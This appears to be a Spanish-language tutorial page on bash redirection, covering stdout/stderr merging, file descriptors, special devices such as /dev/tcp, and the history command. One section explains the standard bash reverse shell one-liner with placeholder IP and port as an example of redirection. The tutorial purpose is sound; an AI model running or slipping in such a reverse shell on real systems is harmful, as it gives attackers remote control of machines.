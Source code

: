 #### Combinar las Salidas
Se puede representar de varias formas. La mas sencilla:
```shell
comando &> salida.txt
```

Esto es lo mismo que:
```shell
comando > salida.txt 2>&1
```

Tambien se puede añadir al final como siempre, duplicando los >>. Tambien funciona como >&.

#### Entender las redirecciones compejas
Existen 3 descriptores de fichero por defecto:
- 0 : Entrada estandard (stdin)
- 1 : Salida estandard (stdout)
- 2 : Salida de error (stderr)

Cuando te encuentras redirecciones de tipo: N>&M,  lo que esta es redirigiendo la salida N al mismo lugar que la salida M, como puedes ver en el ejemplo de Combinar las Salidas.

Tambien se pueden crear descriptores de ficheros propios para redirecciones mas complejas.

#### Dispositivos especiales
Hay ciertos dispositivos especiales que otorgan funcionamientos especificos de cara a la redireccion.

- /dev/null :la "basura", es una forma util de eliminar cierta parte del output o callar comandos (&> /dev/null)
- /dev/tcp/ip/puerto : representa una conexion tcp hacia fuera con el peurto y la ip especificadas
- /dev/udp/ip/puerto : representa una conexion udp hacia fuera con el puerto y la ip especificadas
- /dev/stdout , /dev/stdin, /dev/stderr : las representaciones literales de la salida y entrada.
- /dev/fd/N : si N es un numero valido, representa los descriptores de fichero propios.

#### Redireccion de Reverse Shell
Para poner un ejemplo real, la tipica reverse Shell de bash:
```shell
bash -i >& /dev/tcp/ip/puerto 0>&1
```
Entonces:
- bash -i: : Inicia una instancia interactiva de bash.
- \>& /dev/tcp/ip/puerto : envia la salida de error y estandard por la conexion TCP
- 0>&1 : redirige la entrada estandard hacia el mismo destino que la salida estandard.

En resumen estamos enviando todas las entradas y salidas por el dispositivo /dev/tcp/ip

## Historial
### Comandos anteriores
#### History
Se ejecuta de la siguiente manera:
```shell
history
```
Por defecto muestra los comandos mas recientes.
Se le pude especificar un tipo:
```shell
history N
```
